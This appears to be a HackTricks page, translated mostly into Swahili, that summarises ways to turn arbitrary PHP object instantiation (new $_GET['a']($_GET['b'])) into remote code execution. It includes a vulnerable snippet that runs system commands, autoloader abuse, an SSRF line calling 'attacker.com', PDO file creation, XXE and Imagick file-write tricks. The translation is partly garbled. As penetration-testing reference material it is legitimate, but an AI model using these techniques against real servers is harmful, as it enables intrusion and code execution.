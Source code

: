 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Hii ni kwa kifupi muhtasari wa [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Utangulizi

Uundaji wa vitu vipya vya kiholela, kama `new $_GET["a"]($_GET["a"])`, unaweza kusababisha Utekelezaji wa Kode ya K remote (RCE), kama ilivyoelezwa katika [**andika**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hati hii inasisitiza mikakati mbalimbali za kufikia RCE.

## RCE kupitia Madarasa ya Kawaida au Autoloading

Sintaksia `new $a($b)` inatumika kuunda kitu ambapo **`$a`** inawakilisha jina la darasa na **`$b`** ni hoja ya kwanza iliyopitishwa kwa mjenzi. Vigezo hivi vinaweza kupatikana kutoka kwa ingizo la mtumiaji kama GET/POST, ambapo vinaweza kuwa nyuzi au orodha, au kutoka JSON, ambapo vinaweza kuonekana kama aina nyingine.

Fikiria kipande cha msimbo kilichopo hapa chini:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Katika hali hii, kuweka `$a` kuwa `App` au `App2` na `$b` kuwa amri ya mfumo (mfano, `uname -a`) kunasababisha utekelezaji wa amri hiyo.

**Mifumo ya Autoloading** inaweza kutumika vibaya ikiwa hakuna madarasa kama hayo yanayopatikana moja kwa moja. Mifumo hii inasababisha madarasa kupakuliwa moja kwa moja kutoka kwa faili inapohitajika na inafafanuliwa kwa kutumia `spl_autoload_register` au `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE kupitia Madarasa ya Msingi

Kukosa madarasa ya kawaida au autoloaders, **madarasa ya msingi ya PHP** yanaweza kutosha kwa RCE. Idadi ya madarasa haya inatofautiana kati ya 100 hadi 200, kulingana na toleo la PHP na nyongeza. Yanweza kuorodheshwa kwa kutumia `get_declared_classes()`.

Mifano ya wajibu inaweza kutambuliwa kupitia API ya reflection, kama inavyoonyeshwa katika mfano ufuatao na kiungo [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE kupitia mbinu maalum inajumuisha:**

### **SSRF + Phar Deserialization**

Darasa la `SplFileObject` linawezesha SSRF kupitia wajibu wake, likiruhusu muunganisho na URL yoyote:
```php
new SplFileObject('http://attacker.com/');
```
SSRF inaweza kusababisha mashambulizi ya deserialization katika toleo la PHP kabla ya 8.0 kutumia itifaki ya Phar.

### **Kunutumia PDOs**

Mjenzi wa darasa la PDO unaruhusu muunganisho na hifadhidata kupitia nyuzi za DSN, ambayo inaweza kuwezesha uundaji wa faili au mwingiliano mwingine:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Matoleo ya PHP hadi 5.3.22 na 5.4.12 yalikuwa na hatari ya mashambulizi ya XXE kupitia waumbaji wa `SoapClient` na `SimpleXMLElement`, kulingana na toleo la libxml2.

## RCE kupitia Imagick Extension

Katika uchambuzi wa **mtegemeo wa mradi**, iligundulika kwamba **Imagick** inaweza kutumika kwa **utendaji wa amri** kwa kuunda vitu vipya. Hii inatoa fursa ya kutumia udhaifu.

### VID parser

Uwezo wa VID parser wa kuandika maudhui kwenye njia yoyote iliyotolewa katika mfumo wa faili ulitambuliwa. Hii inaweza kusababisha kuwekwa kwa shell ya PHP katika saraka inayoweza kufikiwa mtandaoni, ikipata Remote Code Execution (RCE).

#### VID Parser + Upakuaji wa Faili

Imepangwa kwamba PHP inahifadhi faili zilizopakiwa kwa muda katika `/tmp/phpXXXXXX`. VID parser katika Imagick, ikitumia protokali ya **msl**, inaweza kushughulikia wildcards katika njia za faili, ikirahisisha uhamishaji wa faili ya muda kwenda mahali palipochaguliwa. Njia hii inatoa mbinu ya ziada ya kufikia uandishi wa faili bila mipaka ndani ya mfumo wa faili.

### PHP Crash + Brute Force

Mbinu iliyoelezwa katika [**andiko la asili**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) inahusisha kupakia faili zinazochochea kuanguka kwa seva kabla ya kufutwa. Kwa kutumia brute-force jina la faili ya muda, inakuwa inawezekana kwa Imagick kutekeleza msimbo wa PHP bila mipaka. Hata hivyo, mbinu hii iligundulika kuwa na ufanisi tu katika toleo la zamani la ImageMagick.

## Marejeleo

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
